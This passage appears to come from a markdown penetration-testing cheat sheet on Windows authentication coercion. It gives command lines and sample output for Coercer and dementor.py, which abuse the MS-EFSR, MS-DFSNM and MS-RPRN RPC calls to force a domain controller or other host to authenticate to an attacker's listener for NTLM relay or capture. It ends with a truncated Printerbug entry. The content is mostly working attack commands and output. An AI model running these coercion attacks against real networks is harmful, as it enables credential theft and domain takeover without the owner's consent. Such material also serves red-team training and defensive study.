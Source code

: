 						./Coercer.py -u username -p password -d domain -f <targets-file> -l <listening_host> --webdav-host
					* Example Output

							root@jack-Virtual-Machine:~# coercer -u domain_user -p 'P@ssw0rd' -d 'microsoftdelivery.com' --dc-ip 10.0.0.1 -t 10.0.0.1 -l 10.0.0.100

							       ______
							      / ____/___  ___  _____________  _____
							     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
							    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
							    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

							[10.0.0.1] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to 10.0.0.100 ...
							   [>] Pipe '\PIPE\lsarpc' is accessible!
							      [>] On '10.0.0.1' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... ERROR_BAD_NETPATH (Attack has worked!)
							      [>] On '10.0.0.1' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
							      [>] On '10.0.0.1' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
							      [>] On '10.0.0.1' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
							      [>] On '10.0.0.1' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
							      [>] On '10.0.0.1' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
							   [>] Pipe '\PIPE\netdfs' is accessible!
							      [>] On '10.0.0.1' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
							      [>] On '10.0.0.1' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ... rpc_s_access_denied (Attack should have worked!)
							   [>] Pipe '\PIPE\spoolss' is accessible!
							      [>] On '10.0.0.1' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

							[+] All done!
		* MS-RPRN (Print Spooler)
			* <details><summary>Recommended: dementor.py (Click to expand) -<br />[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)</summary><p>

					./dementor.py RESPONDERIP TARGET -d lab.local -u lab_user -p PASSWORD
				* Example Output

						(impacket) root@gateway0:/home/lab_user/NetNTLMtoSilverTicket# python ./dementor.py 10.0.0.5 10.0.0.4 -d lab.local -u lab_user -p PASSWORD
						[*] connecting to 10.0.0.4
						[*] bound to spoolss
						[*] getting context handle...
						[*] sending RFFPCNEX...
						[*] Got expected RPC_S_SERVER_UNAVAILABLE exception. Attack worked
						[*] done!
			* <details><summary>Printerbug.py -<br />[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx) (Click to expand)</summary><p>
				